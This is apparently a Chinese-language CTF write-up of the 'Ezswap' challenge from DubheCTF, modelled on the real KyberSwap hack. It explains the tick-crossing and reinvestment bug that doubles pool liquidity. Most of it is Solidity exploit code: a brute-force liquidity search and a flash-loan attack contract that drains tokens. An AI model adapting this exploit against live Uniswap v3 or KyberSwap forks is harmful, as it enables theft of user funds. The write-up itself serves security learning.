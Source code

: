 # Ezswap-DubheCTF

Swap is a kind of magical magic, and I am deeply impressed.

> 题目思路来源于一个真实的针对kyberswap合约的黑客攻击，具体参考
> 
> [https://mp.weixin.qq.com/s/PkUqaJKlJFHsvRot1ij4qg?ref=www.ctfiot.com](https://mp.weixin.qq.com/s/PkUqaJKlJFHsvRot1ij4qg?ref=www.ctfiot.com)

整体的代码并没有更改多少，一是把合约的flash函数锁去掉了，主要的一点改动是在漏洞点这里做了一点修复，限制了无法从上界去利用这个漏洞使流动性翻倍，需要攻击者在流动性区间的下界通过此漏洞利用进行流动性翻倍。
![](https://obsidianmarkdown.oss-cn-beijing.aliyuncs.com/obsidianData/image-20240318145314173.png)
在设计这个题的时候，感觉并没有做好，导致出了非预期。弄了两个池子，一个池子用来被攻击的，一个池子用来闪电贷token的，用户本身只有非常少的token，本意是觉着这样更能模拟真实的场景吧。所以第一个池子的闪电贷其实不应该开放给用户，导致了非预期，直接闪电贷第一个池子就能满足check了。加个bool变量在初始化池子的时候把第一个池子的flash锁了就好了，这非预期有点难受的。

## 漏洞原理

先说说kyerbswap 的一些特点：

- 一是由于kyberswap本身是二开的uniswap v3合约，所以大多数的逻辑都是相似的，但是kyberswap 算是众多fork univ3合约中改动较大的一版，将bitmap索引tick改为了双向链表索引，这样更加的节省gas以及方便查找。
- 二是kyberswap新增了手续费复投的概念，在每次swap的时候都会将用户的手续费复投到池子中，并参与swap过程。在数学原理上，kyber通过一系列数学魔法，把本身的swap兑换曲线和reinvest的概念合并到了一条新的曲线上。
![](https://obsidianmarkdown.oss-cn-beijing.aliyuncs.com/obsidianData/image-20240319111727497.png)
一个简单的swap计算过程。
![](https://obsidianmarkdown.oss-cn-beijing.aliyuncs.com/obsidianData/image-20240319111850867.png)
所以漏洞原理就出在复投之后的tick的计算上，在利用computeSwapStep计算出在这个区间的流动性所支持兑换的token数量后，会进行判断是否跨tick了，如果没有就直接计算currentTick，结束本次循环。
![](https://obsidianmarkdown.oss-cn-beijing.aliyuncs.com/obsidianData/image-20240319112102773.png)
而在computeSwapStep存在着两次计算，第一次是计算当前区间流动性可以被使用的token数量，第二次是考虑了加入再投资流动性之后计算出来的价格。
![](https://obsidianmarkdown.oss-cn-beijing.aliyuncs.com/obsidianData/image-20240319112102773.png)
所以在某种精确计算的情况下，可以找出一个精准的区间和流动性来使calcReachAmount计算出来的数量大于我们要兑换的数量，这样可以让系统认为我们并没有cross tick。但在最终调用calcReachAmount计算出最终价格的时候却已经是下一个区间的价格，从而在执行`swapData.currentTick = TickMath.getTickAtSqrtRatio(swapData.sqrtP);`的时候currentTick也成了区间上界tick或者下界tick。而系统认为我们并没有cross tick但实际上已经cross tick所以流动性本该减去却没有改变，当我们再反向swap时候流动性又会增加，导致流动性翻倍。
# 题解

个人觉着题目的难度可能在于代码量较大，如果之前没看过univ3可能要从头开始学，需要花较久的时间，导致好像也没太多人看这题。关于这个漏洞的利用其实在网上也能有（[https://github.com/paco0x/kyber-exploit-example](https://github.com/paco0x/kyber-exploit-example)），但并不能直接适用于我们这题，原因在于最上面的一个小改动，需要选手理解原理之后手动更改一些地方。

首先找到这个精确的流动性和swap兑换的数量。
```js
// brute force to find a valid liquidity number that will result in end price above the next price & end tick == next tick  
    function findExploitableLiquidity2(uint128 liquidityStart, uint160 currentSqrtP, uint160 targetSqrtP)  
        public  
        view  
        returns (uint128, uint256)  
    {  
        uint128 liquidity = liquidityStart;  
        uint256 absDelta = 0;  
        uint256 count = 0;  
        while (true) {  
            liquidity++;  
            count++;  
​  
            // run the maths in SwamMath.computeSwapStep() to find a liquidity number  
            // that satisfies the condition end_price > next_price when using (usedAmount - 1) to swap.  
            int256 usedAmount = SwapMath.calcReachAmount(liquidity, currentSqrtP, targetSqrtP, 10, true, true);  
            absDelta = uint256(usedAmount) - 1;  
            uint256 deltaL = SwapMath.estimateIncrementalLiquidity(absDelta, liquidity, currentSqrtP, 10, true, true);  
            uint160 nextSqrtP = uint160(SwapMath.calcFinalPrice(absDelta, liquidity, deltaL, currentSqrtP, true, true));  
​  
            if (nextSqrtP < targetSqrtP) {  
                // console2.log("liquidity", liquidity);  
                break;  
            }  
            if (count == 10_000_000) {  
                revert("unable to find a valid liquidity number");  
            }  
        }  
​  
        return (liquidity, absDelta);  
    }


```
然后利用即可，用同样数量的token1获取更多的token0
```
// SPDX-License-Identifier: MIT  
pragma solidity 0.8.9;  
​  
import "../contracts/openzeppelin/contracts/token/ERC20/ERC20.sol";  
​  
import "../contracts/Pool.sol";  
import "../contracts/Factory.sol";  
import "../contracts/oracle/PoolOracle.sol";  
import "../contracts/libraries/TickMath.sol";  
​  
import "../contracts/libraries/SwapMath.sol";  
import "../contracts/periphery/libraries/LiquidityMath.sol";  
​  
contract Token is ERC20 {  
    constructor(string memory name_, string memory symbol_) ERC20(name_, symbol_) {}  
​  
    function mint(address to, uint256 amount) public {  
        _mint(to, amount);  
    }  
}  
interface Setup {  
    function addManager(address manager) external;  
    function run() external;  
    function airdroop() external;  
    function check() external;  
}  
contract KyberAttack  {  
​  
    Pool pool = Pool(0xb51bBD304ADCf42b8882720Af184197600b9d9fF);  
//    Pool pool2  = Pool(0x54A8A576907BA8291a41e21E80a3F357D8f74133);  
    Token token0 =   Token(address(pool.token0()));  
    Setup setup = Setup(0x0DCd1Bf9A1b36cE34237eEaFef220932846BCD82);  
    Token token1 = Token(address(pool.token1()));  
​  
​  
    int24 lower = -111311;  
    int24 upper = lower + 100;  
​  
    uint128 rangeLiquidity;  
​  
​  
    function mintCallback(uint256 qty0, uint256 qty1, bytes calldata data) external {  
        if (qty0 > 0) {  
            token0.transfer(msg.sender, qty0);  
        }  
        if (qty1 > 0) {  
            token1.transfer(msg.sender, qty1);  
        }  
    }  
​  
    function swapCallback(int256 qty0, int256 qty1, bytes calldata data) external {  
​  
        if (qty0 > 0) {  
            token0.transfer(msg.sender, uint256(qty0));  
        }  
        if (qty1 > 0) {  
            token1.transfer(msg.sender, uint256(qty1));  
        }  
    }  
​  
​  
    function flashCallback(uint256 feeQty0, uint256 feeQty1, bytes calldata data) external {  
​  
        uint160 lowerSqrtP = TickMath.getSqrtRatioAtTick(lower);  
        uint160 upperSqrtP = TickMath.getSqrtRatioAtTick(upper);  
​  
         pool.swap(address(this), type(int256).max, true, TickMath.getSqrtRatioAtTick(upper), "");  
        // calc the rough amount of liquidity with amount of 100 ether  
        uint128 initLiquidity = LiquidityMath.getLiquidityFromQty0(lowerSqrtP, upperSqrtP, 100 ether);  
​  
        uint128  adjustedLiquidity = 76766215640030182295;  
        uint256 exploitableToken1Amount =  100005025313878185766;  
​  
         (uint128 L, uint128 reinvestL,) = pool.getLiquidityState();  
        rangeLiquidity = adjustedLiquidity - reinvestL - L;  
        pool.mint(address(this), lower, upper, [TickMath.MIN_TICK, lower], rangeLiquidity, "");  
​  
        pool.swap(address(this), int256(exploitableToken1Amount), true, TickMath.MIN_SQRT_RATIO + 1, "");  
​  
        {  
            pool.swap(address(this), type(int256).min, true, TickMath.getSqrtRatioAtTick(lower), "");  
            (uint128 newLiquidity,,) = pool.getLiquidityState();  
​  
        }  
​  
        (int256 deltaQty0, int256 deltaQty1) = pool.swap(address(this), 10 ether, false, TickMath.getSqrtRatioAtTick(upper+13713), "");  
​  
        pool.burn(lower, upper, rangeLiquidity);  
​  
       token0.transfer(address(pool2), 101 ether);  
       token1.transfer(address(pool2), 0.3 ether );  
​  
    }  
​  
​  
       function run() public {  
        setup.addManager(address(this));  
        setup.airdroop();  
       pool2.flash(address(this),101 ether , 0.3 ether, abi.encodePacked(uint256(101 ether), uint256(0.3 ether)));  
        pool.burn(lower, upper, rangeLiquidity);  
        setup.check();  
    }  
​  
}  
​  
//[+] pool address 0xe7152513974AD8F6fdac593a441b361Ff774fC90  
//[+] pool2 address 0x9d77b2e483D4aA812D3CC2f15Ee6b264b7e93f74  
//[+] token0 address 0x0665FbB86a3acECa91Df68388EC4BBE11556DDce  
//[+] token1 address 0x56639dB16Ac50A89228026e42a316B30179A5376  
//[+] factory address 0xe61FDeDBcb68e8966c869E51eAb9020cFAAdf066  
​
```
 
